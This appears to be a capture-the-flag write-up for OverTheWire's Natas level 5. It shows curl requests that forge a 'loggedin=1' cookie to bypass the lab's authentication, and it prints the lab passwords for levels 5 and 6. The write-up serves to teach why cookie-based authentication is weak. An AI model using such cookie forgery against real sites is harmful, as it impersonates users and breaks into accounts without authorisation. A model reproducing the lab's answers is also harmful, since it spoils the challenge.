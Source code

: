 ```yaml
---
category: natas
---
```

website: http://natas5.natas.labs.overthewire.org/ (password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq)

After going to natas5 link, it said <small>Access disallowed. You are not logged in</small>. Obviously this is related with web authentication. The HTML itself didn't provide us much info, so again I went to explore the HTTP headers. To see what the headers returned in an HTTP response, I used "curl -i". The result is given below:

```console
$ curl -i http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org
HTTP/1.1 200 OK
Date: Sat, 20 Jul 2019 00:08:50 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Vary: Accept-Encoding
Content-Length: 855
Content-Type: text/html; charset=UTF-8

<html>
<head>
... ...              <== skipped
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>
```

As you can see, it has a header "Set-Cookie", which means that this website is using cookie. Moreover, the cookie reads as "loggedin=0". This is a good sign that this website uses cookie for authentication and authorization. Thus, I can explicitly specify my cookie in my HTTP request to impersonate an authorized user. The following HTTP request does the trick:

```console
$ curl -H "cookie: loggedin=1" http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org
<html>
<head>
... ...              <== skipped
<div id="content">
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
</body>
</html>
```

We now have the password for the next level.

<strong>CONCLUSION</strong>

Cookies can be used to keep track of users. However, they can be manipulated by attackers. Thus, be careful if you are using cookies for authentication because it can be hijacked.

More details about cookie can be found here:
- <a href="https://en.wikipedia.org/wiki/HTTP_cookie">HTTP cookie</a>
- <a href="https://swagger.io/docs/specification/authentication/cookie-authentication/">Cookie Authentication</a>
- <a href="https://www.freecodecamp.org/news/session-hijacking-and-how-to-stop-it-711e3683d1ac/">What is session hijacking and how you can stop it</a>
